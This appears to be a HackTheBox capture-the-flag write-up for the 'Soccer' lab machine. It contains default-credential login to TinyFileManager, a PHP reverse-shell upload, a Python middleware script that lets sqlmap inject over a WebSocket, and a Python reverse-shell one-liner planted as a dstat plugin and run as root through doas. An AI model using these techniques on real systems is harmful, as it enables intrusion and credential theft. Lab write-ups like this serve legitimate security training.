







# Soccer - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22```, ```80``` and ```9091```.

***User***: 
Using `gobuster` we found `/tiny` URL path, Found default credentials for `tiny`, Upload PHP reverse shell using `tiny` portal and we get a reverse shell as `www-data`, Found `nginx` configuration with vhost `soc-player.soccer.htb`, On this vhost we found WebSocket to port `9001`, Found SQLi, Using SQLi we get the credentials of `player` user.

***Root***: Found that `permit nopass player as root cmd /usr/bin/dstat`, Create our `python` reverse shell `dstat` plugin, Run it using `doas` and we get a reverse shell as `root`.




## Soccer Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Soccer]
└──╼ $ nmap -sV -sC -oA nmap/Soccer 10.10.11.194
Nmap scan report for 10.10.11.194
Host is up (0.081s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Thu, 05 Jan 2023 20:45:17 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Thu, 05 Jan 2023 20:45:17 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>


```

Observing port `80`, we see that the following web page is hosted:


Running gobuster, we find the following path:
```console
┌─[evyatar9@parrot]─[/hackthebox/Soccer]
└──╼ $ gobuster dir -u http://soccer.htb -x php -w raft-medium-words.txt -t 100 -k --wildcard -o soccer.gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/01/05 22:49:07 Starting gobuster in directory enumeration mode
===============================================================...
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
...
```

Let's navigate to [http://soccer.htb/tiny](http://soccer.htb/tiny):



TinyFileManager is a web-based PHP file manager.

By reviewing the repository at https://github.com/prasathmani/tinyfilemanager, we see that there are default credentials available:
```
Default username/password: admin/admin@123 and user/12345.
```

We discovered that the credentials admin/admin@123 are valid:



Let's navigate to tiny/uploads. It appears that we have permission to upload files to this directory, so let's upload the [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):



Now, we can click the `Direct Link` button to navigate to our reverse shell and obtain a reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/Soccer]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from soccer.htb [10.10.11.194] 43740
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 21:33:31 up 1 day,  1:21,  0 users,  load average: 0.02, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@soccer:/$ 

```

While enumerating, we found the following `nginx` configuration file:
```console
www-data@soccer:/etc/nginx/sites-enabled$ ls
ls
default  soc-player.htb
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb   
cat soc-player.htb
server {
	listen 80;
	listen [::]:80;

	server_name soc-player.soccer.htb;

	root /root/app/views;

	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}

}
```

In the file, we see a new vhost `soc-player.soccer.htb`. Let's try accessing it at http://soc-player.soccer.htb (make sure to add it to `/etc/hosts` first):


We can now register for an account:



After registering, we are presented with the following homepage:


Examining the source code of the webpage, we see that it interacts with `soc-player.soccer.htb:9091` using a WebSocket:
```javascript
 <script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
    </script>
```

Using BurpSuite, we can see that the following request was sent to the WebSocket
```json
{"id":"95307"}
```

Response:
```json
Ticket Exists
```

We can use blind SQL injection on this WebSocket by following the instructions at https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html. This requires setting up a middle `python` server to receive the SQL injection payload from `sqlmap`, send it to the WebSocket, and return the response back to `sqlmap`. To do this, we can use the `python` script provided in the link (remember to update the `ws_server` and `data`):
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

Run it:
```console
┌─[evyatar9@parrot]─[/hackthebox/Soccer]
└──╼ $ python3 middle.py 
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*

```

Run ```sqlmap```:
```console
┌─[evyatar9@parrot]─[/hackthebox/Soccer]
└──╼ $ sqlmap -u "http://localhost:8081/?id=1" --batch --dbs --threads=10
...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Let's dump the contents of the `soccer_db` table:
```console
┌─[evyatar9@parrot]─[/hackthebox/Soccer]
└──╼ $ sqlmap -u "http://localhost:8081/?id=1" --batch -D soccer_db --dump --threads=10
...
```

In the `soccer_db` database, we find a table called `accounts`. Let's dump the contents of the accounts table:
```console
┌─[evyatar9@parrot]─[/hackthebox/Soccer]
└──╼ $ sqlmap -u "http://localhost:8081/?id=1" --batch -D soccer_db -T accounts --dump --threads=10
...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+

```

We obtain the `player` user's password, `PlayerOftheMatch2022`, which we can use to log in via SSH:
```console
┌─[evyatar9@parrot]─[/hackthebox/Soccer]
└──╼ $ ssh player@soccer.htb
The authenticity of host 'soccer.htb (10.10.11.194)' can't be established.
ECDSA key fingerprint is SHA256:Ke/TB8v0VkzfMGP9JasA7Vb22F4d1X6hyU/U5+8JKws.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'soccer.htb,10.10.11.194' (ECDSA) to the list of known hosts.
player@soccer.htb's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan  5 22:22:35 UTC 2023

  System load:           0.04
  Usage of /:            71.0% of 3.84GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             232
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c3f4


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jan  4 20:15:10 2023 from 10.10.14.6
player@soccer:~$ cat user.txt
57058235a3467e9630f3ef19a5be16bd
```

And we get the user flag ```57058235a3467e9630f3ef19a5be16bd```.

### Root

By running ```linpeas``` we get the following information:
```console
...
╔══════════╣ Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

```doas``` (dedicated OpenBSD application sub executor) is a program to execute commands as another user.

```Dstat``` is a versatile replacement for vmstat, iostat and ifstat. Dstat overcomes some of the limitations and adds some extra features [Reference](https://linux.die.net/man/1/dstat).

By running `man dstat`, we can see a list of available plugins:
```console
player@soccer:~$ man dstat
...
FILES
       Paths that may contain external dstat_*.py plugins:

           ~/.dstat/
           (path of binary)/plugins/
           /usr/share/dstat/
           /usr/local/share/dstat/
```

We can write to `/usr/local/share/dstat/`, so let's create a new plugin called `dstat_ps.py` that contains a reverse shell:
```console
player@soccer:/usr/local/share/dstat$ ls
dstat_ps.py
player@soccer:/usr/local/share/dstat$ cat dstat_ps.py 
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

After writing the plugin, we can use `dstat --list` to verify that it is listed among the available plugins:
```console
player@soccer:/usr/local/share/dstat$ dstat --list
internal:
	aio,cpu,cpu-adv,cpu-use,cpu24,disk,disk24,disk24-old,epoch,fs,int,int24,io,ipc,load,lock,mem,mem-adv,net,page,
	page24,proc,raw,socket,swap,swap-old,sys,tcp,time,udp,unix,vm,vm-adv,zones
/usr/share/dstat:
	battery,battery-remain,condor-queue,cpufreq,dbus,disk-avgqu,disk-avgrq,disk-svctm,disk-tps,disk-util,disk-wait,dstat,
	dstat-cpu,dstat-ctxt,dstat-mem,fan,freespace,fuse,gpfs,gpfs-ops,helloworld,ib,innodb-buffer,innodb-io,innodb-ops,
	jvm-full,jvm-vm,lustre,md-status,memcache-hits,mongodb-conn,mongodb-mem,mongodb-opcount,mongodb-queue,mongodb-stats,
	mysql-io,mysql-keys,mysql5-cmds,mysql5-conn,mysql5-innodb,mysql5-innodb-basic,mysql5-innodb-extra,mysql5-io,mysql5-keys,
	net-packets,nfs3,nfs3-ops,nfsd3,nfsd3-ops,nfsd4-ops,nfsstat4,ntp,postfix,power,proc-count,qmail,redis,rpc,rpcd,
	sendmail,snmp-cpu,snmp-load,snmp-mem,snmp-net,snmp-net-err,snmp-sys,snooze,squid,test,thermal,top-bio,top-bio-adv,
	top-childwait,top-cpu,top-cpu-adv,top-cputime,top-cputime-avg,top-int,top-io,top-io-adv,top-latency,top-latency-avg,
	top-mem,top-oom,utmp,vm-cpu,vm-mem,vm-mem-adv,vmk-hba,vmk-int,vmk-nic,vz-cpu,vz-io,vz-ubc,wifi,zfs-arc,zfs-l2arc,
	zfs-zil
/usr/local/share/dstat:
	ps
```

To run our plugin, we just need to add the flag `--ps` (where ps is the name of our plugin) to the `dstat` command:
```console
player@soccer:/usr/local/share/dstat$ doas /usr/bin/dstat --ps
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

```

This gives us a reverse shell:
```console
nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.10] from soccer.htb [10.10.11.194] 52922
# whoami 
whoami
root
# cat /root/root.txt
cat /root/root.txt
ea03f3d41d5800ef03388093e197c861

```

And we get the root flag ```ea03f3d41d5800ef03388093e197c861```.
